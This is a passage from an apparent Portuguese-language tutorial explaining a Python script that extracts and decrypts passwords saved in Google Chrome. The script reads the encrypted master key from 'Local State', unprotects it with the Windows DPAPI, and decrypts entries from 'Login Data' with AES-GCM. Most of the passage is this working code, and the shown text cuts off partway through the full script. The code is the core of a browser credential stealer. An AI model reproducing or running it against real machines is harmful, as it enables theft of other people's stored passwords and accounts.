 ```python
# gera cifra
def gera_cifra(key, pw):
    return AES.new(key, AES.MODE_GCM, pw)

# desencripta o password com a cifra
def decrypt_payload(cifra, payload):
    return cifra.decrypt(payload)

# desencripta o password
def decrypt_pwd(password, key):
    try:
        pw = password[3:15]
        payload = password[15:]
        cifra = gera_cifra(key, pw)
        pass_decrypt = decrypt_payload(cifra, payload)
        pass_decrypt = pass_decrypt[:-16].decode()
        return pass_decrypt
    except:
        return "Chrome < 80"
```

A função `decrypt_pwd` recebe o password que também está criptografado em duas camadas da base `Default\Login Data` e a naster key, e gera uma cifra decriptando a primeira camado do password utilizando a função `AES` da biblioteca `Cryptodome.Cipher`. Em seguida decrpita o resultado transformando em uma string em texto plano, retornando o password.

Entendendo esta lógica, o script comp[leto ficou desta forma:

```python
# importando as bibliotecas
import os
import json
import base64
import sqlite3
import win32crypt
from Cryptodome.Cipher import AES
import shutil

#diretorio dos arquivos Chrome
path = os.path.expanduser('~') + r"\AppData\Local\Google\Chrome\User Data\\"

# Captura e desencripta a master key
def master():
    with open(path + r"Local State", 'r') as f:
        local_state = f.read()
        local_state = json.loads(local_state)
    key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    key = key[5:]
    key = win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]
    return key

# gera cifra
def gera_cifra(key, pw):
    return AES.new(key, AES.MODE_GCM, pw)

# desencripta o password com a cifra
def decrypt_payload(cifra, payload):
    return cifra.decrypt(payload)

# desencripta o password
def decrypt_pwd(password, key):
    try:
        pw = password[3:15]
        payload = password[15:]
```